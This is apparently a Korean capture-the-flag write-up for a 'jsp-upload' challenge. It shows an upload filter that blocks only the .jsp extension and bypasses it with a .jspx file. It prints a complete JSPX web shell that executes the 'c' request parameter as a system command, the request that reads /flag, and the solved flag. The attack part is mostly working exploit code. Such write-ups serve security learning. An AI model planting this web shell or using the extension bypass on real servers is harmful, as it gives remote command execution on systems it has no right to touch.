

## jsp-upload

```python
if (name.toLowerCase().endsWith(".jsp")) {
            res.getWriter().println("jsp 금지!");
            return;
        }
```

업로드 파일의 확장자를 jsp로만 검사하고 있으므로 .jspx로 우회가 가능하다.

```python
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="2.0"><jsp:directive.page contentType="text/plain; charset=UTF-8"/><jsp:scriptlet><![CDATA[
java.util.Scanner s = new java.util.Scanner(
    Runtime.getRuntime().exec(request.getParameter("c")).getInputStream()).useDelimiter("\\A");
out.print(s.next());
]]></jsp:scriptlet></jsp:root>
```

이와 같이 웹쉘을 올리게 되면 c파라미터로 입력되는 명령어를 실행 할 수 있다.

abcd.jspx로 파일을 업로드 하였다.

`/uploads/abcd.jspx?c=cat /flag` 로 접근하게 되면 flag를 획득 할 수 있다.



flag{8c7a8a9846c217c39e03}
